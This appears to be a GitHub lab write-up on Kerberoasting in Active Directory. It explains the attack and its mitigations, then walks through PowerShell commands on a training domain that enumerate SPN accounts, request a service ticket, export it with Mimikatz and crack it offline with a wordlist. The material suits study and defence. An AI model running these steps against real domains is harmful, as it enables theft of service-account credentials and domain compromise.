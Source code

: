 # Privilege Escalation - Kerberoasting

Kerberoasting is a technique used in post-exploitation scenarios to crack service account credentials by brute-forcing the Kerberos Ticket-Granting Service (TGS) ticket. The attack targets the **Service Principal Name (SPN)** associated with service accounts in a domain. Here's a breakdown of how the attack works, its impact, and measures to mitigate it.

## What is Kerberoasting?

Kerberoasting is a type of cyber-attack that exploits a vulnerability in the **Kerberos authentication protocol**, which is used in Microsoft Active Directory (AD) to authenticate users and services. In this attack, the attacker attempts to retrieve the hashed passwords of service accounts, which are typically weak or static, and then cracks them offline to obtain the plaintext password. Once the password is obtained, an attacker could gain unauthorized access to the service account and potentially compromise the entire network.

## How Does Kerberoasting Work?

1. **Identify Service Accounts**:
   Every user account with a non-null **Service Principal Name (SPN)** is a service account. This means that even if there is no service directly associated with the account, the presence of an SPN indicates that the account is a service account.

2. **Request a TGS Ticket**:
   Once a service account is identified, the attacker can request a **Ticket Granting Service (TGS)** ticket for that service from the Domain Controller (DC). The TGS ticket is encrypted using the service account’s password hash.

3. **Offline Brute-Force Attack**:
   After obtaining the TGS ticket, the attacker can extract the password hash and attempt to crack it offline using brute-force techniques. Since this does not involve interacting directly with the service or domain controller during the cracking process, the attack is stealthy and can be performed at the attacker’s convenience.

4. **Crack the Password**:
   If successful, the attacker recovers the plaintext password of the service account, which can then be used to access services or escalate privileges.

## Why is Kerberoasting Effective?

- **No Domain Admin Rights Required**:
  The attacker does not need domain administrator credentials to perform Kerberoasting. They only need to be able to request tickets for service accounts, which is possible if they have basic user access in the domain.
  
- **Offline Cracking**:
  The attack is conducted offline, meaning the attacker can perform brute-force attacks at their own pace without generating significant network traffic or alerting the defenders in real time.
  
- **Weak Service Account Passwords**:
  Service accounts often have weak or static passwords, which are rarely changed. This makes them attractive targets for attackers, as cracking weak passwords is much easier.
  
- **Privilege Escalation**:
  Service accounts often have elevated privileges, meaning that cracking their password can lead to a significant compromise of the domain.

- **Potential for Silver Ticket Creation**:
  Once an attacker obtains the service account's password hash, they can use it to create **Silver Tickets**—Kerberos tickets that can be used to impersonate the service account and access resources.

## Mitigation Strategies

1. **Secure Service Accounts**:
   - Ensure that service account passwords are strong and changed regularly. 
   - Implement **Managed Service Accounts (MSA)** or **Group Managed Service Accounts (gMSA)**, which provide automatic password management, reducing the risk of weak or static passwords.
   
2. **Access Control**:
   - Limit who can request service tickets and access service accounts.
   - Regularly audit SPNs to ensure only authorized accounts are configured as service accounts.
   
3. **Monitor for Suspicious Activity**:
   - Monitor for excessive ticket requests or other anomalies that could indicate Kerberoasting attempts.
   - Implement **Kerberos logging** on Domain Controllers to capture suspicious ticket requests.

4. **Service Account Management**:
   - Ensure that service accounts are properly managed and isolated, with minimal privileges granted only as needed.
   - Regularly review and rotate service account credentials as part of your organization's security policy.

## Conclusion

Kerberoasting is a powerful attack technique because it allows attackers to extract service account password hashes and crack them offline. Since the attack does not require administrative privileges and takes advantage of weak or stale service account passwords, it poses a significant risk to Active Directory environments. Implementing strong service account management practices, password policies, and monitoring can significantly reduce the risk of a successful Kerberoasting attack.

![image](https://github.com/user-attachments/assets/969c0eb3-ca3d-4673-9ca8-4de68fabf0fb)

# Finding Services Running with User Accounts

We first need to find out services running with user accounts, as services running with machine accounts have difficult passwords. We can use Power View's `Get-NetUser –SPN` or Active Directory module for discovering such services.

## Find User Accounts Used as Service Accounts
```powershell
PS C:\AD\Tools> Get-NetUser -SPN
PS C:\AD\Tools> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

Neat! The `svcadmin`, which is a domain administrator, has a SPN set! Let’s request a ticket for the service.

## Request a TGS
```powershell
PS C:\AD\Tools> Add-Type -AssemblyName System.IdentityModel
PS C:\AD\Tools> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

## Check if We Have the TGS for the Service
```powershell
PS C:\AD\Tools> klist

#2>     Client: student157 @ DOLLARCORP.MONEYCORP.LOCAL
        Server: MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
```

## Dump the Tickets to Disk
```powershell
PS C:\AD\Tools> . .\Invoke-Mimikatz.ps1
PS C:\AD\Tools> Invoke-Mimikatz -Command '"kerberos::list /export"'
```

## Copy the MSSQL Ticket to the Kerberoast Folder and Offline Crack the Service Account Password
```powershell
PS C:\AD\Tools> Copy-Item .\1-40a10000-studentx@MSSQLSvc~dcorpmgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi C:\AD\Tools\kerberoast\
PS C:\AD\Tools> cd kerberoast

PS C:\AD\Tools\kerberoast> python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student157@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```
